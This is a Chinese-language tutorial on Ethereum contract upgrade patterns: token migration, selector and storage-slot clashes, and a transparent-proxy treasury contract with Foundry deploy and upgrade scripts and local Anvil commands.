







# 一.内容提要

- 不可以升级的合约如何进行合约升级
- 透明代理升级
- UUPS 升级
- 钻石代理
- 信标代理


# 二.不可以升级的合约如何进行合约升级

这种情况一般是废弃旧合约，将旧合约的功能和数据迁移到新的合约，A 项目发行个叫  AToken(AToken 合约不可以升级)。

原始的合约：发行代币，普通的 ERC20 代码，没有 mint 和 burn,  也没有治理的功能

- 代币销毁：直接将 token 转到 0 地址
- 若想 mint,  这个合约支持不了
- 想改 token Symbol 和 Name, 这个合约也支持不了
- Token 信息
  - Name=DappLink
  - Symbol=DLK
  - TotalSupply=10亿

新的合约：拥有历史的 ERC20 合约的所有功能，同时还支持以下这些功能

- 代币可以调用 burn 销毁，而不是转到 0 地址
- 在一定时间之内，我可以按照一定比例去 mint token 
- 合约加入治理功能
- 新的 Token 信息
  - Name=TheWeb3
  - Symbol=TWT
  - TotalSupply=50亿

从老合约升级(迁移)到新合约的步骤

- 第一步：部署新的合约
- 第二步：开发一个 migrate 合约，migrate 用于这两个代币的互换




- 代表项目
  - BIT----->MNT 
  - LET(Ethereum)----->LET(Achain)
  - Kcash(Ethereum)----->Kcash(Achain)

# 三.透明代理升级



- Proxy 合约：数据合约，当用户调用 Proxy 合约时，是通过 delegateCall 方式调度逻辑，执行的是逻辑合约的逻辑，但是改变数据状态是代理合约（上下文环境）。
- 当发生合约升级的时候，其实就是给代理合约执行一个新的执行逻辑合约, 新的逻辑合约生效，旧的逻辑合约废弃
- 一般通过 ProxyAdmin 合约管理整个升级过程
- 代理合约一直都是一个合约，不会发生变化，仅仅只是升级之后指向不同的逻辑合约

### 1. 选择器冲突

智能合约中，函数选择器（selector）是函数签名的哈希的前4个字节。例如`mint(address account)`的选择器为`bytes4(keccak256("mint(address)"))`，也就是`0x6a627842`。由于函数选择器仅有4个字节，范围很小，因此两个不同的函数可能会有相同的选择器，例如下面两个函数：

```
// 选择器冲突的例子 
contract Foo {    
	function burn(uint256) external {}    
	function collate_propagate_storage(bytes16) external {} 
}
```

示例中，函数`burn()`和`collate_propagate_storage()`的选择器都为`0x42966c68`，是一样的，这种情况被称为“选择器冲突”。在这种情况下，`EVM`无法通过函数选择器分辨用户调用哪个函数，因此该合约无法通过编译。

由于代理合约和逻辑合约是两个合约，就算他们之间存在“选择器冲突”也可以正常编译，这可能会导致很严重的安全事故。举个例子，如果逻辑合约的`a`函数和代理合约的升级函数的选择器相同，那么管理人就会在调用`a`函数的时候，将代理合约升级成一个黑洞合约，后果不堪设想。

目前，有两个可升级合约标准解决了这一问题：透明代理`Transparent Proxy`和通用可升级代理`UUPS`。

透明代理的逻辑非常简单：管理员可能会因为“函数选择器冲突”，在调用逻辑合约的函数时，误调用代理合约的可升级函数。那么限制管理员的权限，不让他调用任何逻辑合约的函数，就能解决冲突：

- **管理员**变为工具人，**仅能调用代理合约的可升级函数对合约升级**，不能通过回调函数调用逻辑合约。
- **其它用户不能调用可升级函数，但是可以调用逻辑合约的函数**。

### 2. 可升级合约里面 Slot 注意点（防止插槽冲突）

- Contract A 

```Plain
Contract A {
    uint256 public a;
    uint256 public b;
    uint256 public c;
    uint256 public e;
    
    mapping(uint256=>address) public d;
    
    constructor() {
        ....
    }
      
    function initialize() public {
        ....
    }
    
    uint256[99] private slot;
}
```

- Contract B

```Plain
Contract B {
    uint256 public a1;
    uint256 public b1;
    uint256 public c1;
    
    mapping(uint256=>address) public d1;
    
    constructor() {
        ....
    }
      
    function initialize() public {
        ....
    }
    
    uint256[99] private slot;
}
```

- Contract C

```Plain
Contract C is A, B {
      uint256 public a2;
      uint256 public b2;
      uint256 public c2;
      
    
      constructor() {
          _disableInitializers();
      }
      
      function initialize() public {
          ....
      }
}
```

C 合约是一个可升级合约,  逻辑合约状态变量和proxy合约一致，防止插槽冲突

### 3. 基于透明代理可升级国库合约实战案例



- ITreasureManager.sol 抽象接口合约

```javascript
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

interface ITreasureManager {
    function depositETH() external payable returns (bool);
    function depositERC20(IERC20 tokenAddress, uint256 amount) external returns (bool);
    function grantRewards(address tokenAddress, address receiptAddress, uint256 amount) external;
    function claimAllTokens() external;
    function claimToken(address tokenAddress) external;
    function withdrawETH(address payable withdrawAddress, uint256 amount) external payable returns (bool);
    function withdrawERC20(IERC20 tokenAddress, address withdrawAddress, uint256 amount) external returns (bool);
    function setTokenWhiteList(address tokenAddress) external;
    function setWithdrawManager(address _withdrawManager) external;
    function queryRewards(address tokenAddress) external view returns(uint256);
    function getTokenWhiteList() external view returns(address[] memory);

    function getValue() external pure returns(uint256);
}
```

#### TreasureManager 国库合约（逻辑合约）

透明代理的逻辑合约不需要特殊的升级逻辑，只需要实现业务逻辑。

```java
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "@openzeppelin/contracts-upgradeable/proxy/utils/Initializable.sol";
import "@openzeppelin/contracts-upgradeable/access/OwnableUpgradeable.sol";
import "@openzeppelin/contracts-upgradeable/access/AccessControlUpgradeable.sol";
import "@openzeppelin/contracts-upgradeable/utils/ReentrancyGuardUpgradeable.sol";
import "@openzeppelin/contracts/token/ERC20/utils/SafeERC20.sol";
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

import "./interface/ITreasureManager.sol";

contract TreasureManager is Initializable, OwnableUpgradeable, AccessControlUpgradeable, ReentrancyGuardUpgradeable, ITreasureManager {
    using SafeERC20 for IERC20;

    address public constant ethAddress = address(0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE);

    address public treasureManager;
    address public withdrawManager;

    address[] public tokenWhiteList;

    mapping(address => uint256) public tokenBalances;
    mapping(address => mapping(address => uint256)) public userRewardAmounts;

    error IsZeroAddress();

    event DepositToken(
        address indexed tokenAddress,
        address indexed sender,
        uint256 amount
    );

    event WithdrawToken(
        address indexed tokenAddress,
        address sender,
        address withdrawAddress,
        uint256 amount
    );

    event GrantRewardTokenAmount(
        address indexed tokenAddress,
        address granter,
        uint256 amount
    );

    event WithdrawManagerUpdate(
        address indexed withdrawManager
    );

    modifier onlyTreasureManager() {
        require(msg.sender == address(treasureManager), "TreasureManager.onlyTreasureManager");
        _;
    }

    modifier onlyWithdrawManager() {
        require(msg.sender == address(withdrawManager), "TreasureManager.onlyWithdrawer");
        _;
    }

    function initialize(address _initialOwner, address _treasureManager, address _withdrawManager) public initializer {
        treasureManager = _treasureManager;
        withdrawManager = _withdrawManager;
        _transferOwnership(_initialOwner);
    }

    receive() external payable {
        depositETH();
    }

    function depositETH() public payable nonReentrant returns (bool) {
        tokenBalances[ethAddress] += msg.value;
        emit DepositToken(
            ethAddress,
            msg.sender,
            msg.value
        );
        return true;
    }

    function depositERC20(IERC20 tokenAddress, uint256 amount) external returns (bool) {
        tokenBalances[address(tokenAddress)] += amount;
        tokenAddress.safeTransferFrom(msg.sender, address(this), amount);
        emit DepositToken(
            address(tokenAddress),
            msg.sender,
            amount
        );
        return true;
    }

    function grantRewards(address tokenAddress, address granter, uint256 amount) external onlyTreasureManager {
        require(address(tokenAddress) != address(0) && granter != address(0), "Invalid address");
        userRewardAmounts[granter][address(tokenAddress)] += amount;
        emit GrantRewardTokenAmount(address(tokenAddress), granter, amount);
    }

    function claimAllTokens() external {
        for (uint256 i = 0; i < tokenWhiteList.length; i++) {
            address tokenAddress = tokenWhiteList[i];
            uint256 rewardAmount = userRewardAmounts[msg.sender][tokenAddress];
            if (rewardAmount > 0) {
                userRewardAmounts[msg.sender][tokenAddress] = 0;
                tokenBalances[tokenAddress] -= rewardAmount;
                if (tokenAddress == ethAddress) {
                    (bool success, ) = msg.sender.call{value: rewardAmount}("");
                    require(success, "ETH transfer failed");
                } else {
                    IERC20(tokenAddress).safeTransfer(msg.sender, rewardAmount);
                }
            }
        }
    }

    function claimToken(address tokenAddress) external {
        require(tokenAddress != address(0), "Invalid token address");
        uint256 rewardAmount = userRewardAmounts[msg.sender][tokenAddress];
        require(rewardAmount > 0, "No reward available");
        userRewardAmounts[msg.sender][tokenAddress] = 0;
        tokenBalances[tokenAddress] -= rewardAmount;
        if (tokenAddress == ethAddress) {
            (bool success, ) = msg.sender.call{value: rewardAmount}("");
            require(success, "ETH transfer failed");
        } else {
            IERC20(tokenAddress).safeTransfer(msg.sender, rewardAmount);
        }
    }

    function withdrawETH(address payable withdrawAddress, uint256 amount) external payable onlyWithdrawManager returns (bool) {
        require(address(this).balance >= amount, "Insufficient ETH balance in contract");
        (bool success, ) = withdrawAddress.call{value: amount}("");
        if (!success) {
            return false;
        }
        tokenBalances[ethAddress] -= amount;
        emit WithdrawToken(
            ethAddress,
            msg.sender,
            withdrawAddress,
            amount
        );
        return true;
    }

    function withdrawERC20(IERC20 tokenAddress, address withdrawAddress, uint256 amount) external onlyWithdrawManager returns (bool) {
        require(tokenBalances[address(tokenAddress)] >= amount, "Insufficient token balance in contract");
        tokenAddress.safeTransfer(withdrawAddress, amount);
        tokenBalances[address(tokenAddress)] -= amount;
        emit WithdrawToken(
            address(tokenAddress),
            msg.sender,
            withdrawAddress,
            amount
        );
        return true;
    }

    function setTokenWhiteList(address tokenAddress) external onlyTreasureManager {
        if(tokenAddress == address(0)) {
            revert IsZeroAddress();
        }
        tokenWhiteList.push(tokenAddress);
    }

    function getTokenWhiteList() external view returns (address[] memory) {
        return tokenWhiteList;
    }

    function setWithdrawManager(address _withdrawManager) external onlyOwner {
        withdrawManager = _withdrawManager;
        emit WithdrawManagerUpdate(
            withdrawManager
        );
    }

    function queryRewards(address _tokenAddress) public view returns (uint256) {
        return userRewardAmounts[msg.sender][_tokenAddress];
    }
    
    // V2 版本加的代码
    function getValue() external pure returns(uint256) {
        return 10000;
    }
}
```

- EmptyContract  空合约

```Plain
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

contract EmptyContract {
    function foo() public pure returns (uint256) {
        return 0;
    }
}
```

#### TreasureManagerScript （部署脚本）

部署透明代理需要部署逻辑合约和透明代理合约（TransparentUpgradeableProxy ），并设置管理员（ProxyAdmin）。

在透明代理中，管理员调用代理合约的升级函数，而普通用户调用逻辑合约的函数。

```java
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Script, console} from "forge-std/Script.sol";
import {TreasureManager} from "../src/TreasureManager.sol";

import "forge-std/Vm.sol";
import {Script, console } from "forge-std/Script.sol";
import "@openzeppelin/contracts/proxy/transparent/ProxyAdmin.sol";
import "@openzeppelin/contracts/proxy/transparent/TransparentUpgradeableProxy.sol";

import "../src/TreasureManager.sol";
import "../test/EmptyContract.sol";

contract TreasureManagerScript is Script {
    EmptyContract public emptyContract;
    TreasureManager public treasureManager;
    TreasureManager public treasureManagerImplementation;
    ProxyAdmin public treasureManagerProxyAdmin;

    function run() public {
        uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
        address deployerAddress = vm.addr(deployerPrivateKey); //计算对应的部署者地址

        vm.startBroadcast(deployerPrivateKey);

        emptyContract = new EmptyContract(); //部署临时的空合约
        //创建透明代理指向这个空合约
        TransparentUpgradeableProxy proxyTreasureManager = new TransparentUpgradeableProxy(
            address(emptyContract),  // 初始逻辑合约（占位符）
            deployerAddress,  // 代理管理员
            ""   // 初始化数据
        );
		
        //将代理地址转换为业务逻辑接口类型
        treasureManager = TreasureManager(payable(address(proxyTreasureManager)));
		//部署真正的业务逻辑合约
        treasureManagerImplementation = new TreasureManager();
        treasureManagerProxyAdmin = ProxyAdmin(getProxyAdminAddress(address(proxyTreasureManager)));
		//将代理的逻辑合约升级到实际实现 同时调用初始化函数设置初始状态
        treasureManagerProxyAdmin.upgradeAndCall(
            ITransparentUpgradeableProxy(address(treasureManager)),
            address(treasureManagerImplementation),
            abi.encodeWithSelector(
                TreasureManager.initialize.selector,//bytes4(keccak256("initialize(address, address, address)"))
                msg.sender,
                msg.sender,
                msg.sender
            )
        );

        console.log("address=====", address(treasureManager));
        console.log("treasureManagerProxyAdmin=====", address(treasureManagerProxyAdmin));

        vm.stopBroadcast();
    }

    function getProxyAdminAddress(address proxy) internal view returns (address) {
        address CHEATCODE_ADDRESS = 0x7109709ECfa91a80626fF3989D68f67F5b1DD12D;
        //使用 Foundry 的作弊码读取存储
        Vm vm = Vm(CHEATCODE_ADDRESS);
         // 通过读取代理合约的特定存储槽获取管理员地址
        bytes32 adminSlot = vm.load(proxy, ERC1967Utils.ADMIN_SLOT);
        return address(uint160(uint256(adminSlot)));
    }
}
```

#### TreasureManagerV2Script （升级脚本）

部署新的逻辑合约，然后通过代理合约的升级函数升级（由管理员调用）

代理合约管理员 treasureManagerV2ProxyAdmin.upgradeAndCall（）

```java
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Script, console} from "forge-std/Script.sol";
import {TreasureManager} from "../src/TreasureManager.sol";

import "forge-std/Vm.sol";
import {Script, console } from "forge-std/Script.sol";
import "@openzeppelin/contracts/proxy/transparent/ProxyAdmin.sol";
import "@openzeppelin/contracts/proxy/transparent/TransparentUpgradeableProxy.sol";

import "../src/TreasureManager.sol";
import "../test/EmptyContract.sol";

contract TreasureManagerV2Script is Script {
    TreasureManager public treasureManagerV2;
    TreasureManager public treasureManagerV2Implementation;
    ProxyAdmin public treasureManagerV2ProxyAdmin;

    function run() public {
        uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");

        vm.startBroadcast(deployerPrivateKey);

        treasureManagerV2Implementation = new TreasureManager();

        treasureManagerV2 = TreasureManager(payable(0x5FC8d32690cc91D4c39d9d3abcBD16989F875707));
        treasureManagerV2ProxyAdmin = ProxyAdmin(getProxyAdminAddress(0x5FC8d32690cc91D4c39d9d3abcBD16989F875707));

        treasureManagerV2ProxyAdmin.upgradeAndCall(
            ITransparentUpgradeableProxy(address(treasureManagerV2)),
            address(treasureManagerV2Implementation),
            hex""
        );

        vm.stopBroadcast();
    }

    function getProxyAdminAddress(address proxy) internal view returns (address) {
        address CHEATCODE_ADDRESS = 0x7109709ECfa91a80626fF3989D68f67F5b1DD12D;
        Vm vm = Vm(CHEATCODE_ADDRESS);
        bytes32 adminSlot = vm.load(proxy, ERC1967Utils.ADMIN_SLOT);
        return address(uint160(uint256(adminSlot)));
    }
}
```

- 测试命令总结

~~~shell
```
Available Accounts
==================

(0) 0xf39Fd6e51aad88F6F4ce6aB8827279cffFb92266 (10000.000000000000000000 ETH)
(1) 0x70997970C51812dc3A010C7d01b50e0d17dc79C8 (10000.000000000000000000 ETH)
(2) 0x3C44CdDdB6a900fa2b585dd299e03d12FA4293BC (10000.000000000000000000 ETH)
(3) 0x90F79bf6EB2c4f870365E785982E1f101E93b906 (10000.000000000000000000 ETH)
(4) 0x15d34AAf54267DB7D7c367839AAf71A00a2C6A65 (10000.000000000000000000 ETH)
(5) 0x9965507D1a55bcC2695C58ba16FB37d819B0A4dc (10000.000000000000000000 ETH)
(6) 0x976EA74026E726554dB657fA54763abd0C3a0aa9 (10000.000000000000000000 ETH)
(7) 0x14dC79964da2C08b23698B3D3cc7Ca32193d9955 (10000.000000000000000000 ETH)
(8) 0x23618e81E3f5cdF7f54C3d65f7FBc0aBf5B21E8f (10000.000000000000000000 ETH)
(9) 0xa0Ee7A142d267C1f36714E4a8F75612F20a79720 (10000.000000000000000000 ETH)

Private Keys
==================

(0) 0xac0974bec39a17e36ba4a6b4d238ff944bacb478cbed5efcae784d7bf4f2ff80
(1) 0x59c6995e998f97a5a0044966f0945389dc9e86dae88c7a8412f4603b6b78690d
(2) 0x5de4111afa1a4b94908f83103eb1f1706367c2e68ca870fc3fb9a804cdab365a
(3) 0x7c852118294e51e653712a81e05800f419141751be58f605c371e15141b007a6
(4) 0x47e179ec197488593b187f80a00eb0da91f1b9d0b13f8733639f19c30a34926a
(5) 0x8b3a350cf5c34c9194ca85829a2df0ec3153be0318b5e2d3348e872092edffba
(6) 0x92db14e403b83dfe3df233f83dfa3a0d7096f21ca9b0d6d6b8d88b2b4ec1564e
(7) 0x4bbbf85ce3377467afe5d46f804f221813b2bb87f24d81f60f1fcdbf7cbf4356
(8) 0xdbda1821b80551c9d65939329250298aa3472ba22feea921c0cf5d620ea67b97
(9) 0x2a871d0798f97d79848a013d4936a73bf4cc922c825d33c1cf7073dff6d409c6
```

```
0xB7f8BC63BbcaD18155201308C8f3540b07f84F5e  token

0x5FC8d32690cc91D4c39d9d3abcBD16989F875707  treasure

0xCe85503De9399D4dECa3c0b2bb3e9e7CFCBf9C6B proxyAdmin
```


### Build

```shell
$ forge build
```

### Test

```shell
$ forge test
```

### Format

```shell
$ forge fmt
```

### Gas Snapshots

```shell
$ forge snapshot
```

### Anvil

```shell
$ anvil
```

### Deploy

```shell
forge script ./script/TreasureManagerScript.s.sol:TreasureManagerScript --rpc-url 127.0.0.1:8545 --private-key 0xac0974bec39a17e36ba4a6b4d238ff944bacb478cbed5efcae784d7bf4f2ff80 --broadcast
```

### Cast

```shell
cast call --rpc-url 127.0.0.1:8545 0x5FC8d32690cc91D4c39d9d3abcBD16989F875707 "treasureManager()(address)"
cast call --rpc-url 127.0.0.1:8545 0x5FC8d32690cc91D4c39d9d3abcBD16989F875707 "tokenBalances(address)(uint256)" 0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE

# eth 充值
cast send --rpc-url 127.0.0.1:8545 --private-key 0xac0974bec39a17e36ba4a6b4d238ff944bacb478cbed5efcae784d7bf4f2ff80 0x5FC8d32690cc91D4c39d9d3abcBD16989F875707 --value 1000000000000000000

# erc20 充值
cast call --rpc-url 127.0.0.1:8545 0xB7f8BC63BbcaD18155201308C8f3540b07f84F5e "balanceOf(address)(uint256)" 0xf39Fd6e51aad88F6F4ce6aB8827279cffFb92266
cast send --rpc-url 127.0.0.1:8545 --private-key 0xac0974bec39a17e36ba4a6b4d238ff944bacb478cbed5efcae784d7bf4f2ff80 0xB7f8BC63BbcaD18155201308C8f3540b07f84F5e "approve(address,uint256)" 0x5FC8d32690cc91D4c39d9d3abcBD16989F875707 100000000000000000
